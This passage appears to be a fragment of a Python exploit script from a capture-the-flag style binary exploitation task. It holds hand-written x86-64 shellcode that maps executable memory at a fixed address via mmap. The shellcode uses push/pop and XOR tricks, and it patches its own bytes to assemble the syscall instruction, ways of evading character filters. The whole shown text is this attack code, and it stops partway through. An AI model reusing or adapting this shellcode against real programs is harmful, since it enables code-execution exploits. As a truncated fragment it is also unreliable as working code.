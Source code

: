 ```python
'''

# 0x40404040 为32位shellcode地址

shellcode_mmap = '''
/*mmap(0x40404040,0x7e,7,34,0,0)*/

push 0x40404040 /*set rdi*/

pop rdi

push 0x7e /*set rsi*/

pop rsi

push 0x40 /*set rdx*/

pop rax

xor al,0x47

push rax

pop rdx


push 0x40 /*set r8*/

pop rax

xor al,0x40

push rax

pop r8


push rax /*set r9*/

pop r9


/*syscall*/

push rbx

pop rax

push 0x5d

pop rcx

xor byte ptr[rax+0x31],cl

push 0x5f

pop rcx

xor byte ptr[rax+0x32],cl


push 0x22 /*set rcx*/

```